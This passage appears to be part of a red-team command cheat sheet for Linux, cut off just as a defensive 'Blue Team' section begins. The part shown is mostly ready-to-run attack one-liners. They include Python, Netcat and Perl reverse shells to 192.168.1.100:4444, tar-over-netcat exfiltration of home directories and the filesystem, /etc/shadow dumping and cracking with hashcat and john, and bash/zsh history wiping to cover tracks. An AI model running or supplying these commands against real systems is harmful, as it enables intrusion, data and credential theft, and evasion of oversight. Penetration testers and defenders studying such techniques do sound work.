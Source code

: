 **Reverse Shell - Python**
```bash
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/sh","-i"]);p.wait()'
```
Python-based reverse shell.

**Reverse Shell - Netcat**
```bash
nc -e /bin/bash 192.168.1.100 4444
nc -l -p 4444 -e /bin/bash
```
Netcat reverse shell (if -e available).

**Reverse Shell - Perl**
```bash
perl -e 'use Socket;$i="192.168.1.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">\\&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```
Perl-based reverse shell.

**Data Exfiltration**
```bash
tar czf - /important/data | nc 192.168.1.100 4444
tar czf - /home/user | openssl enc -aes-256-cbc -salt | nc 192.168.1.100 4444
find / -type f -size -5M 2>/dev/null | tar czf - -T - | nc 192.168.1.100 4444
```
Compress and exfiltrate data over network.

**Credential Dumping**
```bash
cat /etc/shadow
hashcat -m 1800 /etc/shadow wordlist.txt
john --wordlist=rockyou.txt /etc/shadow
```
Extract and crack password hashes.

**History Cleanup**
```bash
cat /dev/null > ~/.bash_history
cat /dev/null > ~/.zsh_history
history -c
unset HISTFILE
export HISTFILE=/dev/null
```
Remove command history for OPSEC.

---

## <a name="linux-blue"></a>Linux - BLUE Team (Defensive)

### System Monitoring
